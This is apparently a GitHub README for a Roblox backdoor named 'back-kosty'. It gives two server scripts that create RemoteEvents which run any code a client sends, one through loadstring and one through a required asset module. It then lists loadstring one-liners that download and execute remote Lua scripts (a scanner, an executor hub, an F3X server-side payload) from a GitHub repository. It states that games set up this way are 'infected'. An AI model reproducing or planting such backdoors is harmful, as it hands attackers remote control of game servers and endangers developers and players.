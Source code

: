 # back-kosty
repository of my backdoor for test also this so epic :D
# how to install?
create in serverscriptservice the 2 scripts
# stape number 1
local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "back-kosty"
backdoor.OnServerEvent:connect(function(player, SS)
	loadstring(SS)()
end)

# stape 2

local backdoor = Instance.new("RemoteEvent", game.ReplicatedStorage)
backdoor.Name = "polaria"

backdoor.OnServerEvent:Connect(function(player, SS)
	local module = require(123255432303221)
	if type(SS) == "string" then
		module:Pload(SS)
	else
		warn("polaria failed")
	end
end)

# after that your game will be infected by back-kosty
# loadstring 1 (SERVERSIDE)
loadstring(game:HttpGet("(https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/scanner.lua)")()
# loadstring 2 (LOCAL)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/executor/executorandhub.lua", true))()
# loadstring 3 (SERVERSIDE IN F3X)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Kostyosthesystem/back-kosty/refs/heads/main/server-side/project%20360%20(ONLY%20F3X%20GAMES).lua", true)()
